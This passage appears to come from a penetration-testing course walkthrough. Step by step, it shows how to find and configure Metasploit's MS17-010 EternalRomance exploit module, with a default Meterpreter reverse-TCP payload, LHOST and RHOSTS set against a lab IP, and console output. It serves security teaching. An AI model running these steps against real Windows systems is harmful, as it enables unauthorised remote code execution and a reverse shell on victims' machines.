 Then, students need to search for the `EternalRomance` exploit (which was developed by the NSA's Equation Group and leaked by The Shadow Brokers):

Code: shell

```shell
search eternalromance
```

```
msf6 > search eternalromance

Matching Modules
================

   #  Name                                  Disclosure Date  Rank    Check  Description
   -  ----                                  ---------------  ----    -----  -----------
   0  exploit/windows/smb/ms17_010_psexec   2017-03-14       normal  Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   1  auxiliary/admin/smb/ms17_010_command  2017-03-14       normal  No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution

Interact with a module by name or index. For example info 1, use 1 or use auxiliary/admin/smb/ms17_010_command
```

Students need to use the first exploit that holds the tag number 0, which they can select by using the `use` command:

Code: shell

```shell
use 0
```

```
msf6 > use 0

[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_psexec) >
```

When using the `show options` command, students will find out that the two options that need to be set for this exploit are `LHOST` and `RHOSTS`:

Code: shell

```shell
set LHOST tun0
set RHOSTS STMIP
```

```
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST tun0

LHOST => tun0
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.129.253.135

RHOSTS => 10.129.253.135
```
